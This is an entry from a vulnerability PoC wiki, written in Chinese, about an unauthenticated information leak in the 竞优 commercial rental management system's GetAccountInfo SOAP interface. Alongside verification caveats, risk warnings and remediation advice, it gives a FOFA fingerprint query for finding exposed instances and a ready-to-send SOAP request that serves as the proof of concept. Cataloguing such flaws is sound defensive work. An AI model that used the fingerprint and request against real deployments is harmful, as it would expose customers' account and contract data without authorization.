

# 竞优商业租赁管理系统 GetAccountInfo信息泄露

## 条目说明

- 对象与具体问题：竞优商业租赁管理系统；GetAccountInfo信息泄露
- 版本、配置及部署条件：版本未知
- 认证与权限前提：匿名声称
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- POC标题新增用户与实际GetAccountInfo读接口矛盾，应改为获取账户资料
- 合同/客户数据范围缺可读返回证明；截图未视检
- 在野已知无来源
- 产品名租赁管理系统过泛，可依竞优指纹与491统一厂商

## 操作风险

请求可能删除/覆盖数据、修改账号或持久改变业务状态。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

## 漏洞描述

商业租赁管理系统存在严重的信息泄露漏洞，攻击者可利用该漏洞非法获取用户敏感信息，如租赁合同、客户数据等，可能导致重大经济损失和隐私泄露风险。

## 影响版本

商业租赁管理系统

## **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 原文提供部分细节 | 见技术资料 | 未独立核验 | 待来源核实 |

> 归档原表（原作者主张，未独立核验）：上表记录本库当前核验边界；下表保留归档中的公开情况和在野利用声明，不能据此认定本库已验证。
>
> | 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
> |------|-------|-------|------|
> | 是 | 已公开 | 已公开 | 已知 |

### 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

## 漏洞复现

FOFA：title="商业租赁管理系统" || body="Silverlight/install/Silverlight5.exe" || body="pageUrl = \"/loading.aspx\"" || body="竞优软件</a>"

POC/EXP：**新增用户**

```http
POST /rental/contract/api/account.asmx HTTP/1.1
Content-Type: text/xml; charset=utf-8
Host: 127.0.0.1
SOAPAction: http://tempuri.org/GetAccountInfo
 
<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope 
    xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" 
    xmlns:xsd="http://www.w3.org/2001/XMLSchema" 
    xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
    <soap:Body>
        <GetAccountInfo xmlns="http://tempuri.org/" />
    </soap:Body>
</soap:Envelope>
```




## 漏洞修复

关闭互联网暴露面或接口设置访问权限

升级至安全版本


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
